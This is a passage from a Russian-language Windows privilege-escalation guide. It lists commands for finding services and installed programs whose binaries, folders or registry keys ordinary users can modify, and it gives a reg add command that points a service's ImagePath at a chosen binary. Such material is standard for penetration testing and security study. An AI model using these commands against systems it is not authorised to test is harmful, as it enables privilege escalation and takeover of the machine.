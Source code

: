 ```
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

Вы также можете использовать **sc** и **icacls** :

```
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

## Разрешения на изменение реестра служб

Вы должны проверить, можете ли вы изменить реестр какой-либо службы. Вы можете **проверить** свои **разрешения** в **реестре служб,** выполнив:

```
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```

Проверьте, есть ли у **аутентифицированных пользователей** или **NT AUTHORITY\INTERACTIVE** полный контроль. В этом случае вы можете изменить двоичный файл, который будет выполняться службой.

Чтобы изменить путь исполняемого файла:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

# Приложения

## Установленные приложения

Проверьте **права доступа к двоичным файлам** (возможно, вы сможете перезаписать один из них и повысить привилегии) и к папкам 

```
dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE

Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
```
